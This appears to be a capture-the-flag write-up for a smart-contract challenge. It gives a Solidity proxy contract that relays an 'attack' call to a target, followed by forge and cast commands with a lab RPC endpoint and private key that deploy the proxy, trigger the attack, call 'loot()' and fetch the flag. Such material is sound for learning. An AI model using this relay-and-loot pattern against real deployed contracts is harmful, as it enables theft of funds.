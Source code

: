 create a middle man 

`forge init . --force --no-git 
`
Middleman.sol 

```sol
// SPDX-License-Identifier: UNLICENSED  
pragma solidity ^0.8.13;  
  
contract Middleman {  
    address public target = 0x9ADAFC44200a10b29583438397B6A81A969E48cc;  
  
    function attack(uint256 _damage) external {  
        (bool success, bytes memory result) = target.call(abi.encodeWithSignature("attack(uint256)", _damage));  
        require(success, string(result));  
    }  
}
```

// deploy transaction 

``forge create src/Middleman.sol:Middleman --rpc-url http://94.237.49.73:36209/rpc --private-key 0xd3984677af36a4e5b95808bb51f8cb31c9a8e0f367e5168ccde53cba87be5385 --no-cache --broadcast ``


// send attack using middleman addres "deployed to output "

``cast send 0x5CDDF581552142dFb4a67bE529b2CdFDb6CF318A "attack(uint256)" 1000 --private-key 0xd3984677af36a4e5b95808bb51f8cb31c9a8e0f367e5168ccde53cba87be5385 --rpc-url http://94.237.49.73:36209/rpc 
``

//loot using real targetAddress 

``cast send --rpc-url http://94.237.49.73:36209/rpc --private-key 0xd3984677af36a4e5b95808bb51f8cb31c9a8e0f367e5168ccde53cba87be5385 0x8d9d5B304a1197BC959d6dA66c6DC34349b54043  'loot()'``

`curl http://94.237.49.73:36209/flag`

